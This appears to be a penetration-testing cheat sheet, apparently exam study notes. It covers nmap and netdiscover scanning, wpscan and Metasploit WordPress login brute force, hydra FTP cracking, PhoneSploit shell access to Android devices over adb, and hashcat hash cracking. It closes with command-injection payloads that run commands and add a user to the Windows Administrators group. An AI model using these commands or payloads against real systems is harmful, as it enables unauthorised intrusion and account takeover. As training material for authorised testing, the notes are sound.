 ### 1. Find the IP target.
 ```
  $ ip addr
  $ netdiscover  (If not found $ apt-get install netdiscover)
  $ netdiscover -i eth0   (confirm from ifconfig which net/wifi using)
  $ netdiscover -r IP/24  
 ```
### 2. Nmap scan all
  ```
  $ nmap IP -sV -sC -p -O -oN output.txt
  
  -iL=import IPs,  --top-ports 1000
  ```
### 3. IPs Service, RDP(3389), SQL(3306), FTP(21) check
 ```
  $ nmap -Pn -p 3389 IP | grep open
  $ nmap -Pn -p 3306 IP | grep open
  $ nmap -Pn -p 21 IP | grep open
  ```
### 4. Windows Comman Line
  $ Net user

### 5. Wordlist location find
 ```
  $ locate wordlists
  $ locae rockyou.txt
```
### 6. WP scan (Wp Vulnerability)
```
  $ wpscan --url IP --enumerate u
  
  --enumerate p, -U username, -P password, --usernames userlist.txt, --passwords passwdlist.txt
 
 => msfconsole 
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Pass.txt
set RHOSTs IP
set RPORT PORT
set TARGETURI http://IP:port
set USERNAME admin
->run
```
### 7. FTP Password find
  $ hydra -l user -P passlist.txt ftp://IP

### 8. Prints the route that a packet takes to reach the host
  $ traceroute google.com

### 9. Android
```
  $ netdiscover -r IP/24   (got final IP)
  $ nmap -O IP
  
  apt install adb
  pip install colorama
  git clone https://github.com/aerosol-can/PhoneSploit
  cd PhoneSploit
  python3 phonesploit.py
  select 3 to connect new phone
  Add IP address of android device
  4 (Access shell on phone)
  IP address again of android device
  pwd > ls > cd sdcard > ls > cd downloads > cat file.txt
```
### 10. Stegnography
  ```
  $ Snow.exe -C -p “given_password” file_name.txt  (Pass tu hobo = 'test')
  -C  compressing / uncompressing
  -p  password

  Open Stego (GUI tool):
     Open the exe > open and select file > click get
 ```
### 11. Cryptography
```
#### Identify:
https://hashes.com/en/tools/hash_identifier
https://www.onlinehashcrack.com/hash-identification.php
https://www.tunnelsup.com/hash-analyzer
#### Crak hash:
https://hashes.com/en/decrypt/hash
https://crackstation.net

  $ hash-identifier  ->Enter and paste the hash.
  $ haiti -e <crypto_hash>    (https://noraj.github.io/haiti/#/pages/usage)
  $ Hashcat -a 3 -m 900 hash.txt /rockyou.txt
  -a attack mode (3)
  -m hashtype (select number fom below)
   900 = md4
   1800 = SHA512CRYPT
   110  = SHA1 with SALT HASH
   0  = MD5
   100 = SHA1
   1400 = SHA256
  ``` 
## 12. Used Tools
```
Veracrypt = Encryt / Decrypt the Hidden Disk 
Cryptool
Snow
Bctextencoder
Md5 & sha1 checksum utility
Wpscan
Nmap
Metasploit
Hydra
Wireshark
Winscp
OWASP ZAP  
RDP
```
### 13. Command Injection
```
Severity: Low        Severity: Medium           Severity: High          
1; ls                1& ls                      || ls
1; id                1& net user                || net user
1; net user
| ls

 Others low Severity cmd: 
| hostname
| whoami
| dir C:\path.txt
| type path.txt
| net user
| net user Test /Add
| net user
| net user Test
| net localgroup Administrators Test /Add
Successfully created the "Test" user account.
```


